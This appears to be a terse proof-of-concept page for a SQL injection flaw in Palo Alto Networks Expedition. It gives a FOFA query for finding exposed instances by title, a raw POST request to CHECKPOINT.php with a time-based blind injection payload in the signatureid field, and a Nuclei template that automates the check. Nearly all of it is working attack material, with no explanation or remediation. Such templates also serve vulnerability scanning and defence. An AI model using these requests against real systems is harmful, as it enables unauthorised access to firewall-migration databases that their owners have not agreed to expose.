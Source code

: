 # fofa

```plain
title="Expedition Project"
```

# poc

```yaml
POST /bin/configurations/parsers/Checkpoint/CHECKPOINT.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded

action=import&type=test&project=pandbRBAC&signatureid=1%20AND%20(SELECT%201234%20FROM%20(SELECT(SLEEP(5)))test)
```

# nuclei

```yaml
id: pan-Expedition-sqli

info:
  name: pan-Expedition-sqli
  author: zxf
  severity: high
  metadata: 
    fofasearch: title="Expedition Project"

http:
  - raw:
      - |
        POST /bin/configurations/parsers/Checkpoint/CHECKPOINT.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        action=import&type=test&project=pandbRBAC&signatureid=1%20AND%20(SELECT%201234%20FROM%20(SELECT(SLEEP(5)))test)
        
    matchers:
      - type: dsl
        dsl:
          - status_code==200 && duration >= 5
```

![img](https://cdn.nlark.com/yuque/0/2025/png/40959960/1739166356996-bf933e01-b8b2-4530-b2b9-dae57052ca37.png)

![img](https://cdn.nlark.com/yuque/0/2025/png/40959960/1739166302145-09e804f4-7dfd-44e5-b69d-a3f7400e314a.png)
